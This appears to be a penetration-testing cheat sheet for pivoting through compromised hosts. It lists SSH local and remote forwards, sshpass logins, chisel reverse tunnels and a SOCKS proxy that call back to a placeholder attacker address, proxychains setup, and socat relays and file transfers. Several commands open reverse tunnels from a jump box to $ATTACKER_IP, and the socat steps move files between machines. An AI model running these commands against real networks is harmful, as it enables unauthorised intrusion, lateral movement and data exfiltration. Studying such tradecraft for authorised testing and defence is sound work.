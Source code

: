 Port forwarding from $TARGET_IP to localhost with SSH
---
```bash
ssh -N -L $PORT:localhost:$PORT $USER@$TARGET_IP
```

```bash
sshpass -p $PASSWORD ssh $USER@$TARGET_IP -L $PORT:127.0.0.1:$PORT
```

or run in background with -f option

```bash
ssh -N -f -L $PORT:localhost:$PORT $USER@$TARGET_IP
```

Forward port from remote machine to local machine:

```bash
service ssh start
```

then on remote machine

```bash
ssh -N -R $REMOTE_PORT:localhost:$PORT $USER@$ATTACKER_IP
```

Using CHISEL:
---
single port on attacker machine

```bash
chisel server --port 8000 --reverse
```

from jump box

```bash
./chisel client $ATTACKER_IP:8000 R:$PORT:$DEST_IP:$PORT
```

 Opening socks5 server on LOCAL machine on port 1080

```bash
chisel server --port 8001 --socks5 --reverse
```

on jump box

```bash
./chisel client --max-retry-count 1 $ATTACKER_IP:8001 R:socks
```

Then edit proxychains config:
  
```config
socks5 127.0.0.1 1080
```

Execute commands with

```bash
proxychains -q
```

in front of them

Forward local port to target IP with SOCAT
---
```bash
socat TCP-LISTEN:139,reuseaddr,fork TCP:$TARGET_IP:$PORT &
```

Using SOCAT to send file:
---
On receiving machine

```bash
socat -u TCP-LISTEN:9876,reuseaddr OPEN:$FILE_OUT,creat
```

and on sending machine

```bash
socat -u FILE:$FILE_OUT TCP:$RECEIVER_IP:9876
```